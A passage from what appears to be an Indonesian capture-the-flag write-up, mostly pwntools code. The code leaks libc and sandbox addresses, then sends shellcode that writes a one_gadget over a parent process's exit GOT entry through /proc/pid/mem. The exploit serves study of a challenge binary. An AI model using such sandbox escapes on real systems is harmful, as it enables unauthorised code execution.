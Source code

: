 ```python
sandbox_base = int(p.recvuntil('-')[:-1], 16)
offset_to_change = sandbox_base + 0xfb0
print hex(offset_to_change)
p.recvuntil('sandbox')
p.recvuntil('sandbox')
libc_base = int(p.recvuntil('-')[:-1], 16)
print hex(libc_base)

one_gadget = libc_base + 0x103f50
```

Ketiga, buka file /proc/$pid/mem dan menulis one_gadget ke GOT exit. Panggil syscall terlarang di child, yang seharusnya memberhentikan child dan mengeksekusi exit, dalam kasus ini adalah one_gadget.

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/{}/mem'.format(PPID))
sc += shellcraft.open('rsp', 2, 0)
sc += '''
mov r14, rax
mov rax, 8
mov rdi, r14
mov rsi, {}
mov rdx, 1
syscall

mov rdi, {}
push rdi
mov rax, r14
'''.format(offset_to_change, one_gadget)
sc += shellcraft.write('rax', 'rsp', 8)
sc += shellcraft.close('r14')
sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)
```
